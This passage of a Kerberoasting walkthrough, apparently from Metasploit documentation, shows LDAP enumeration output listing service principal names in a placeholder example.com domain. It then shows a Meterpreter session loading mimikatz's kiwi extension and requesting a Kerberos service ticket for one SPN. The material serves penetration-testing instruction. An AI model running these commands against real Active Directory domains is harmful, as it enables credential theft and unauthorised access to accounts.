```
[*] 172.16.199.235:389 Getting root DSE
dn:
namingcontexts: DC=example,DC=com
namingcontexts: CN=Configuration,DC=example,DC=com
namingcontexts: CN=Schema,CN=Configuration,DC=example,DC=com

...

======================================================================

 Name                  Attributes
 ----                  ----------
 cn                    BERYL_SAVAGE
 samaccountname        BERYL_SAVAGE
 serviceprincipalname  CIFS/OGCWLPT1000000

CN=CAITLIN_CAMPBELL OU=Devices OU=FIN OU=Tier 1 DC=example DC=com
=================================================================

 Name                  Attributes
 ----                  ----------
 cn                    CAITLIN_CAMPBELL
 samaccountname        CAITLIN_CAMPBELL
 serviceprincipalname  ftp/BDEWSECS1000000

CN=NETTIE_BURNS OU=ITS OU=Stage DC=example DC=com
=================================================

 Name                  Attributes
 ----                  ----------
 cn                    ALBERTO_OLSEN
 samaccountname        ALBERTO_OLSEN
 serviceprincipalname  https/TSTWWKS1000002

CN=LESSIE_PHILLIPS OU=Test OU=GOO OU=Stage DC=example DC=com
============================================================

```

Great, we now have a couple SPNs to move forward with.

### Request Service Tickets

We can request a Service Ticket using the kiwi extension in metasploit and one of the SPNs found above:
```
meterpreter > load kiwi
Loading extension kiwi...

  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > kiwi_cmd kerberos::ask /target:https/TSTWLPT1000000
Asking for: https/TSTWLPT1000000
   * Ticket Encryption Type & kvno not representative at screen

	   Start/End/MaxRenew: 12/16/2022 4:58:34 PM ; 12/17/2022 1:35:41 AM ; 12/23/2022 3:35:41 PM
	   Service Name (02) : https ; TSTWLPT1000000 ; @ EXAMPLE.COM
	   Target Name  (02) : https ; TSTWLPT1000000 ; @ EXAMPLE.COM
```